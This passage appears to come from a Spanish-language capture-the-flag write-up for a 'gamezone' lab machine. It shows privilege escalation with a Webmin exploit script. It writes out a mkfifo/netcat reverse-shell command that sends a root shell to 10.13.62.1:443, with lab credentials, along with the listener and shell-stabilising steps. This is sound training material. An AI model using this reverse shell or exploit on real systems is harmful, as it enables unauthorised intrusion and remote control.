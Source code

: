 Con este exploit, se puede escalar privilegios sin metasploit:

lo nombramos y usamos el siguiente comando:

```bash
python jm.py -t localhost -p 80 -U agent47 -P videogamer124 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.13.62.1 443 >/tmp/f"
```

Usamos el mkfifo y nos ponemos en escucha con netcat:

```bash
sudo nc -lvnp 443 
```

finalmente recibimos la shell:

```bash
root@gamezone:/usr/share/webmin/file/# 
```

le hacemos un tratamiento y vemos con el comando which si tenemos python o python3. Si lo tenemos, podemos seguir con los comandos de abajo y si no tenemos python podemos usar **script /dev/null -c bash**

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
export SHELL=bash
```

luego, presionamos CTRL+ Z 

```bash
stty raw -echo;fg
reset xterm
```

Con esto, tenemos una bash totalmente funcional que al momento de presionar CTRL + C no se nos va a caer. Tambien, podemos usar CTRL +L e ir atras y adelante en la bash y ya es mas comodo trabajar. Con esto, ya podemos decir que hemos tomado el control de esta maquina! 


---
# Trophy & Loot
user.txt:

![Pasted-image-20240721050730.png](./assets/Pasted-image-20240721050730.png)



root.txt: 

![Pasted-image-20240721050628.png](./assets/Pasted-image-20240721050628.png)

